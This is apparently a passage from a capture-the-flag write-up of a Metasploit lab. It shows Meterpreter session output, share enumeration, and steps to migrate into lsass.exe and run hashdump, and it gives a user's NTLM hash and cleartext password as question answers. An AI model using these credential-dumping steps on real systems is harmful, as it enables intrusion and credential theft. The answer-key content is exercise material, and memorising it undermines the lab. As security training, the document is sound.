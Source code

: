```bash

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.10.2.3:4444 -> 10.10.105.71:53161 (10.10.105.71)

msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run
[*] Running module against ACME-TEST (10.10.105.71)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```


### Question 4:
What is the NTLM hash of the jchambers user?

**Answer:** 69596c7aa1e8daee17f8e78870e25a5c

List the running process: ps

![image](https://github.com/user-attachments/assets/afe73c5e-98b4-486c-ab51-c7f76087217f)

according to the hint you have to migrate to lsass.exe


![image](https://github.com/user-attachments/assets/bdc2515f-1ce3-4267-b9e5-438c0dfc10a8)


Run the command hashdump:

![image](https://github.com/user-attachments/assets/0414dc18-6a4f-4664-9169-4eeeb021f2fb)


### Question 5: 
What is the cleartext password of the jchambers user?

**Answer:** Trustno1
